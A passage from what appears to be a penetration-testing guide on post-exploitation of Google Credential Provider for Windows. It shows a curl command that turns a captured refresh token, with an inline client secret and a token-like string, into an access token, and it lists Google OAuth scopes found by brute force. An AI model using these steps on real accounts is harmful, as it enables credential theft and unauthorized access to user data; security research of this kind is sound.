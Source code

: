 <details><summary>Script to obtain the password in clear-text given the access token, encrypted password and resource id</summary></details>

It's possible to find the key components of this in the Chromium source code:

* API domain: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API endpoint: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
     --data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
     https://www.googleapis.com/oauth2/v4/token
```

### GCPW - Scopes

{% hint style="info" %}
Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.

Alsoe, the refresh token is not valid in every application.
{% endhint %}

By default GCPW won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details><summary>Bash script to brute-force scopes</summary></details>

And this is the output I got at the time of the writing:

```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
```